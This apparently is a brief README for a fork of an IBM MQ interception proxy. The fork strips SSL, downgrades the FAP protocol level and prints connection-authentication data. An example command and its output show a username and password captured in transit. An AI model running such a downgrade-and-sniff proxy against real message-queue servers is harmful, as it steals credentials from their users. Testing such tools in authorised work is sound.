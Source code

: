 Forked from https://github.com/dulaku/alsanna because all the main components already there
removed ssl stuff and added changing FAP level to 0c and outputing conauth data so you can see creds


exaple run below with the docker mq
mainframe@ubuntu:~/MYTOOLS/my_boyfriend$ sudo python3 my_boyfriend.py --listen_ip 0.0.0.0 --listen_port 1414 --server_ip 172.17.0.2 --server_port 1414 
b'CAUT\x01\x00\x00\x00\x05\x00\x00\x00\x08\x00\x00\x00\x05\x00\x00\x00\x08\x00\x00\x00adminpassw0rd\x00\x00\x00'


